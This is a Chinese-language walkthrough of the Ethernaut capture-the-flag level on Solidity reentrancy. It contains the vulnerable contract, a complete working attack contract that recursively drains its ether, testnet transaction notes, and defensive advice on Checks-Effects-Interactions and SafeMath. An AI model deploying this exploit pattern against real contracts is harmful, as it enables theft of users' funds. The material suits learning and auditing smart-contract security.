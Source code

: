 # level10 Re-entrancy

## 1. 问题

要求你将合约中所有的eth转出到自己的地址。合约源码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## 2. 解法

本题是要求你利用合约中的`重入攻击`漏洞来实现偷eth的效果。具体的漏洞在下面几行：

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

当第一次调用 `withdraw` 函数时，if调节如果判断成功，会先调用 `msg.sender.call` 给目标地址转入eth，此时可能触发目标地址的 `fallback` 或 `receive` 函数，函数内可能会继续调用 `withdraw` 函数，形成循环。

通过循环第二次进入时，因为第一次还没有走到 `balances[msg.sender] -= _amount;` 余额扣减，所以二次调用时条件仍然满足，产生重入漏洞。

> [!CAUTION]
> * **CEI** 原则：防止重入攻击，的核心原则是采用检查-影响-交互模式（Checks-Effects-Interactions）
>    1. 先检查是否满足触发条件
>    2. 再更新（余额）等数据状态
>    3. 最后和外部交互

具体操作流程如下：

1. 编写 `HackReentrancy` 合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.12;

interface IReentrance {
    
    function donate(address _to) external payable;

    function balanceOf(address _who) external view returns (uint256 balance);
    
    function withdraw(uint256 _amount) external;
}

contract HackReentrancy {
    
    IReentrance private reentrance;

    constructor(address _reentrance) {
        reentrance = IReentrance(_reentrance);
    }
    
    function hack() external payable {
        // 1. 先充值
        reentrance.donate{value: msg.value}(address(this));
        // 2. 立刻提款，触发fallback
        reentrance.withdraw(msg.value);
    }
    
    fallback() external payable {
        // 1. 判断余额
        uint256 allLeft = address(reentrance).balance;
        uint256 usLeft = reentrance.balanceOf(address(this));
        if(allLeft > usLeft) {
            // 1.a 如果余额超过自己注资的钱，则按照最大量递归
            reentrance.withdraw(usLeft);
        } else if (allLeft > 0) {
            // 1.b 如果余额已经低于自己注资的钱，则可以最后一次全部取走
            reentrance.withdraw(allLeft);
        } 
        // 1.c 如果已经全部被取出来了，则停止递归调用，完成任务
    }
}
```

> [!NOTE]
> 这里我们使用了 `fallback` 实现，也可以通过 `receive` 实现

2. 在remix中编译，部署到sepolia上，[交易地址](https://sepolia.etherscan.io/tx/0x1d27b1e3efc72356ce6b9182d4edb9aad42d17d15e9406c8a41917df3992fbcc)

3. 我们通过查询区块链浏览器，发现这个合约一共有 `0.001 ether = 10^6 gwei`。

4. 调用 `hack` 合约，输入传输的 `msg.value` 为 `4 * 10^5 gwei`, [交易地址](https://sepolia.etherscan.io/tx/0x20c57b5f9719ba0ae04f6d0a42bdad786a817d0fb756313e401e777e68184570):

> [!TIP]
> 基本上这个量级或这个更大的都没问题。
> 具体关于 `msg.value` 值的分析见后续章节


![](../../resources/img/level10/success_hack2.png)

5. 上面的交易记录截图已经能看出来，我们的递归已经生效，且最后一次把剩余的余额尾巴也收走了。

6. 点击 `submit instance`， 提交通过！

## 3. 注意：不要设置过小的 `msg.value`

> [!IMPORTANT]
> 1. solidity限制了函数递归调用不能超过1024层，同时深度还受gas limit等的限制，所以我们需要精确设计递归层数，让他不要因为递归太多导致交易执行失败，结果导致什么都没捞到，反而白白损失手续费
> 2. solidity的这个特性也能推测出：即使遭遇了重入攻击，攻击者为了安全起见，大概率也不会写一个合约，通过一次调用偷走所有的资金。更大概率会通过蚂蚁搬家的方式一点点偷走资金。所以对于Dapp开发者来说，准备好应急预案，留下方便操作的应急接口，也能在出现问题时挽回一点损失。

如果我们设置一个比较小的 `msg.value` 来调用 `hack` 函数([部署地址](https://sepolia.etherscan.io/tx/0xf67e33f785470c0a0a3988f5265148cb53247c16a42094ec275b9bfd3daf4e18))，现象如下：

1. （可选）为了递归过深导致失败，我们先输入 `1.1*10^3 Gwei`, 点击 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xeeebe2eba293d3d96f06b25c3b242080d806ddbb884cc188e23049bd9852729b)

![](../../resources/img/level10/hack2.png)


执行后，能发现交易gas使用了 70w+，且可以看到internal transaction很多，说明递归次数很多:

![](../../resources/img/level10/failure_inter_txn.png)

2. 此时，如果我们继续操作，再调整成合适的手续费，比如 `5 * 10^5 Gwei` 再此调用 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xd9bb919227b25c95dae8e15a701b91b36fff7409eb7a2785d2287e51ec27fa4f), 我们会发现交易直接失败了：

![](../../resources/img/level10/failure_inter_txn2.png)


3. 如果我们进一步查询，会发现 `HackEntrancy` 合约在原始 `Reentrance` 合约中的余额已经变成一个非常大的值了：

![](../../resources/img/level10/wrong_balance2.png)

4. 这个是因为原始的 `Reentrance` 合约是 `0.6.x` 版本编译的，他没有做数字的溢出判断，导致第一次调用时，会在 `balances[msg.sender] -= _amount;` 时将我们的余额减成负数（对应的就是一个正很大的整数）。后续我们二次调用 `donate` 时，内部的加法又做了越界校验，导致校验没通过:

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

> [!NOTE]
> 到这里我们可以发现，如果原始合约中 `balances[msg.sender] -= _amount;` 也使用了 `SafeMath` 库做越界校验，也能避免重入攻击

| [⬅️ level9 King](../level9_king/README.md) | [level11  ➡️]() |
|:------------------------------|--------------------------:|